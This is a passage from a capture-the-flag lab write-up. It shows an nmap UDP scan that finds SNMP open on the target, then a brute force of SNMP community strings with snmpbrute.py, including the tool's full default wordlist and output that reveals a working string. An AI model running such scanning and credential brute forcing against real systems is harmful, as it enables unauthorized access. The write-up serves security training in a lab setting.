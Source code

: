 Surprisingly, both work. However, this would lead to nowhere as I still cannot access the API using any of these tokens.

I found out later that this method was unintended, and it did work for a while before being patched.

### SNMP Brute --> James PW

I was a bit stuck here, so I referred to a writeup. Turns out, SNMP is open on this machine.&#x20;

```
$ sudo nmap --min-rate 5000 -sU 10.129.228.102     
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-08 10:48 EDT
Nmap scan report for mentorquotes.htb (10.129.228.102)
Host is up (0.0090s latency).
Not shown: 993 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
161/udp   open   snmp
```

The default community string `public` did return some information, but it was very limited. There should be another community string present, and we had to brute force it.&#x20;

We can run `snmpbrute.py` to find the possible community strings:

```
 $ /usr/share/legion/scripts/snmpbrute.py -t 10.129.228.102
     _____ _   ____  _______     ____             __     
  / ___// | / /  |/  / __ \   / __ )_______  __/ /____ 
  \__ \/  |/ / /|_/ / /_/ /  / __  / ___/ / / / __/ _ \
 ___/ / /|  / /  / / ____/  / /_/ / /  / /_/ / /_/  __/
/____/_/ |_/_/  /_/_/      /_____/_/   \__,_/\__/\___/ 

SNMP Bruteforce & Enumeration Script v2.0
http://www.secforce.com / nikos.vassakis <at> secforce.com
###############################################################

Trying ['', '0', '0392a0', '1234', '2read', '3com', '3Com', '3COM', '4changes', 'access', 'adm', 'admin', 'Admin', 'administrator', 'agent', 'agent_steal', 'all', 'all private', 'all public', 'anycom', 'ANYCOM', 'apc', 'bintec', 'blue', 'boss', 'c', 'C0de', 'cable-d', 'cable_docsispublic@es0', 'cacti', 'canon_admin', 'cascade', 'cc', 'changeme', 'cisco', 'CISCO', 'cmaker', 'comcomcom', 'community', 'core', 'CR52401', 'crest', 'debug', 'default', 'demo', 'dilbert', 'enable', 'entry', 'field', 'field-service', 'freekevin', 'friend', 'fubar', 'guest', 'hello', 'hideit', 'host', 'hp_admin', 'ibm', 'IBM', 'ilmi', 'ILMI', 'intel', 'Intel', 'intermec', 'Intermec', 'internal', 'internet', 'ios', 'isdn', 'l2', 'l3', 'lan', 'liteon', 'login', 'logon', 'lucenttech', 'lucenttech1', 'lucenttech2', 'manager', 'master', 'microsoft', 'mngr', 'mngt', 'monitor', 'mrtg', 'nagios', 'net', 'netman', 'network', 'nobody', 'NoGaH$@!', 'none', 'notsopublic', 'nt', 'ntopia', 'openview', 'operator', 'OrigEquipMfr', 'ourCommStr', 'pass', 'passcode', 'password', 'PASSWORD', 'pr1v4t3', 'pr1vat3', 'private', ' private', 'private ', 'Private', 'PRIVATE', 'private@es0', 'Private@es0', 'private@es1', 'Private@es1', 'proxy', 'publ1c', 'public', ' public', 'public ', 'Public', 'PUBLIC', 'public@es0', 'public@es1', 'public/RO', 'read', 'read-only', 'readwrite', 'read-write', 'red', 'regional', '<removed>', 'rmon', 'rmon_admin', 'ro', 'root', 'router', 'rw', 'rwa', 'sanfran', 'san-fran', 'scotty', 'secret', 'Secret', 'SECRET', 'Secret C0de', 'security', 'Security', 'SECURITY', 'seri', 'server', 'snmp', 'SNMP', 'snmpd', 'snmptrap', 'snmp-Trap', 'SNMP_trap', 'SNMPv1/v2c', 'SNMPv2c', 'solaris', 'solarwinds', 'sun', 'SUN', 'superuser', 'supervisor', 'support', 'switch', 'Switch', 'SWITCH', 'sysadm', 'sysop', 'Sysop', 'system', 'System', 'SYSTEM', 'tech', 'telnet', 'TENmanUFactOryPOWER', 'test', 'TEST', 'test2', 'tiv0li', 'tivoli', 'topsecret', 'traffic', 'trap', 'user', 'vterm1', 'watch', 'watchit', 'windows', 'windowsnt', 'workstation', 'world', 'write', 'writeit', 'xyzzy', 'yellow', 'ILMI'] community strings ...
10.129.228.102 : 161      Version (v2c):  internal
10.129.228.102 : 161      Version (v1):   public
10.129.228.102 : 161      Version (v2c):  public
10.129.228.102 : 161      Version (v1):   public
10.129.228.102 : 161      Version (v2c):  public
Waiting for late packets (CTRL+C to stop)
```